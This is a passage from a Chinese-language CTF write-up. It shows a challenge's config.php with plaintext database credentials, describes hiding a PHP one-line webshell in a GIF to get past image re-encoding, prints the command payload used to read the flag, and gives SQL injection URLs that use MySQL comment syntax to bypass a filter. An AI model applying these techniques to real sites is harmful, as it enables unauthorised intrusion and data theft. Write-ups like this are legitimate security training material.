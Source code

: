 ```config.php
<?php
	$db_user='web';
	$db_password='WebPaSSw0rd!';
	$db_host='localhost';
	$db_database='web';
	$con =mysql_connect($db_host,$db_user,$db_password) or die('Not connect');
	mysql_select_db($db_database,$con) or dir('Not select');
	mysql_query('SET NANES UTF8');
?>
```

稍微研究一下源码发现name存在注入，但是只有6位，所以没什么用。
那就是上传文件的地方有问题了，测试一下发现重点在于这两个函数`imagecreatefromjpeg`
`imagecreatefromgif`

发现这两个函数会把图片做处理，如果图片是不可解析的，那么直接回返回false不会写进文件中去。那么应该就是构造一个图片shell了

做题时开始踩了坑，因为发现这个函数会把图片中的内容重构过，所以直接写shell失败，所以试图写在不会被处理的地方，所以发现了这篇文章[https://www.secgeek.net/bookfresh-vulnerability/](https://www.secgeek.net/bookfresh-vulnerability/)

蛋疼的是线上无效（后来发现其实phpInfo()其实被删了），然后找别的办法，尝试使用gif

测试发现gif的处理不像jpg那么严格，几乎没有对图片的重构，所以在图片的前面在不影响内容的情况下写入了一句话。

然后列目录读文件就get flag了
```
a=echo "<br />";$handler = opendir('./');while( ($filename = readdir($handler)) !== false ) {echo $filename."<br/>";}$username=file_get_contents('./4ff692fb12aa996e27f0a108bfc386c2');var_dump($username);
```

## hackme 

题目刚出的时候没去看，后来发现给了一大堆提示
**Hackme提示**
**1.网站开发人员经常会去看备忘录**
**2.想办法拿到管理员密码**

打开站发现并不能没有找到备忘录在哪
只能找到
[http://hackme.sctf.xctf.org.cn/login.php](http://hackme.sctf.xctf.org.cn/login.php)
[http://hackme.sctf.xctf.org.cn/index.php?id=1](http://hackme.sctf.xctf.org.cn/index.php?id=1)
这两个页面。
测试发现存在注入
**http://hackme.sctf.xctf.org.cn/index.php?id=-1||1#**
发现对空格和很多敏感函数有过滤，尝试用/*!00000xxx*/这样的方式绕过，成功
**http://hackme.sctf.xctf.org.cn/index.php?id=1/*!00000union*//*!00000select*/version()%23**

先看看数据库内容

```
5.5.42-log
user hackme@localhost
库名 hackme
库中有两个表
article
两个列
id  content

beiwanglu
3个列
id time event
```
看到有个beiwanglu的表
